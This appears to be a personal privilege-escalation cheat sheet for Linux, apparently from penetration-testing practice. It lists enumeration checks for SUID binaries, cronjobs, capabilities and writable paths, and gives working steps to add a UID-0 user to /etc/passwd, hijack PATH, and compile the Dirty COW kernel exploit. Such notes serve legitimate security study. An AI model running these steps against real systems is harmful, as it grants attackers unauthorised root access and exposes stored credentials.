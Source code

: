 * Check what we can run as sudo
* Check cronjobs
* Find insecure permissions
* linux capabilities
* check setuid bits
* Check around for creds in config files
* check for random programs  
* check for any groups user is part of and other users on the box
* Check processes and open internal ports


**Kernel Exploits, sudo run, suid binaries, linux version, cronjobs, PATH, nfs shares, getcap**
 
Find suid binaries: find / -perm -u=s -type f 2>/dev/null

Cronjobs - /etc/crontab, /var/log/cron.log, check /var

Find all files owned by a user: 
find / -type f -writable 2> /dev/null # find writeable in /etc
find / -name root 2>/dev/null 
find / -user root  -type d 2>/dev/null  (for directories)

Monitor linux processes without root (pspy)  

If have write  access to /etc/passwd  or /etc/shadow
Add our name with root priv at the end, add: root:/bin/bash used to provide a root shell to the added user  
```
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Uname -a and check for kernel exploits  
/proc/version  

Getcap capabilities: getcap -r / 2>/dev/null

 


Find writable folders: find / -writable 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
Path variable change: export PATH=/home/murdoch:$PATH

dirty cow exploit for old vms
https://github.com/FireFart/dirtycow/blob/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt

If you have a sql config. Log into mysql or any version of mysqql for ex mysql_dump

